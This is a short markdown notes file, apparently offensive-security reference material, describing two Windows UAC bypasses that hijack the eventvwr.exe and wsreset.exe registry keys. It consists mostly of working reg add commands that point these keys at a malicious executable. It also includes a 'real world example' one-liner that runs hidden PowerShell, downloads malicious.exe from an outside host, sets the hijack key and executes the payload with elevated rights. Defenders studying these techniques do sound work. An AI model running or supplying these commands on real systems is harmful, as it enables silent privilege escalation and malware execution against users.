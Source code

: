 # User Access Controls Bypass
## eventvwr.exe
https://lolbas-project.github.io/lolbas/Binaries/Eventvwr/#uac%20bypass
https://www.fortinet.com/blog/threat-research/malicious-macro-bypasses-uac-to-elevate-privilege-for-fareit-malware

Prep: 
```
reg add HKCU\Software\Classes\mscfile\shell\open\command /d %tmp%\malicious.exe /f
```
During startup, eventvwr.exe checks the registry value HKCU\Software\Classes\mscfile\shell\open\command for the location of mmc.exe, which is used to open the eventvwr.msc saved console file. If the location of another binary or script is added to this registry value, it will be executed as a high-integrity process without a UAC prompt being displayed to the user.

Real World Example: 
```
cmd.exe /c powershell.exe -w hidden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://walmare.com/downloads/malicious.exe','%TEMP%\malicious.exe') & reg add HKCU\Software\Classes\mscfile\shell\open\command /d %tmp%\malicious.exe /f & C:\Windows\system32\eventvwr.exe & ping -n 15 124.0.0.1>nul & %tmp%\malicious.exe
```

## wsreset.exe
https://lolbas-project.github.io/lolbas/Binaries/Wsreset/#uac%20bypass

Prep: 
```
reg add HKCU\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\Shell\open\command /d %tmp%\malicious.exe /f
```
During startup, wsreset.exe checks the registry value HKCU\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\Shell\open\command for the command to run. Binary will be executed as a high-integrity process without a UAC prompt being displayed to the user.
```
HKCU\Software\Classes\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\Shell\open\command
```



